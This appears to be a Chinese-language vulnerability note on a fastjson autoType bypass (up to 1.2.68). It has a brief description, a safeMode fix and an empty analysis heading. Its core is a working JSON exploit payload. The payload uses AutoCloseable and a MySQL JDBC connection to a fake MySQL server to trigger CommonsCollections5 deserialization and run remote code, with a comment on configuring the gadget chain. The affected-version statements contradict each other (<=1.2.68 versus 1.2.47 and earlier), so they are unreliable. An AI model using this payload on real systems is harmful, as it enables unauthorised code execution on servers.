


### 一 漏洞描述
fastjson是一款用Java语言编写的高性能功能完善的JSON库。由于其独特的算法，fastjson的parse速度极快，超越了所有json库，包括曾经号称最快的jackson以及Google的二进制协议protocol buf。fastjson还是官方收录的参考实现之一，完全支持http://json.org的标准。除此之外，fastjson还支持各种JDK类型包括JavaBean，Map,Enum,泛型等，而且不需要额外的jar，能够直接跑在JDK上。Fastjson支持JDK 5， JDK 6，Android,阿里云手机等环境。

fastjson <= 1.2.68

攻击者仍然可以通过发送精心制造的请求包，使用mappings绕过autoType选项，在使用Fastjson的服务器上远程执行代码。  
该问题影响Fastjson 1.2.47以及之前的版本，而且无需开启Autotype选项。
但开启safeMode则无法利用。

### 二 漏洞利用
```
{
    "@type":"java.lang.AutoCloseable",
    "@type": "com.mysql.jdbc.JDBC4Connection",
    "hostToConnectTo": "127.0.0.1",
    "portToConnectTo": 3306,
    "info":
    {
        "user": "CommonsCollections5", // 利用链，自己在MySQL_Fake_Server的conf里面改，具体看他的readme
        "password": "pass",
        "statementInterceptors": "com.mysql.jdbc.interceptors.ServerStatusDiffInterceptor",
        "autoDeserialize": "true",
        "NUM_HOSTS": "1"
    },
    "databaseToConnectTo": "dbname",
    "url": ""
}
```

### 三 漏洞修复
升级并开启safeMode或不用fastjson

safeMode开启
```java
import com.alibaba.fastjson.parser.ParserConfig;

ParserConfig.getGlobalInstance().setSafeMode(true);
```



### 四 漏洞分析


> 参考链接
> payload: https://blog.gm7.org/%E4%B8%AA%E4%BA%BA%E7%9F%A5%E8%AF%86%E5%BA%93/02.%E4%BB%A3%E7%A0%81%E5%AE%A1%E8%AE%A1/01.Java%E5%AE%89%E5%85%A8/2.%E5%90%84%E7%A7%8D%E5%88%86%E6%9E%90/07.Fastjson1.2.68%E5%88%86%E6%9E%90.html
> https://www.cnblogs.com/huim/p/16566911.html
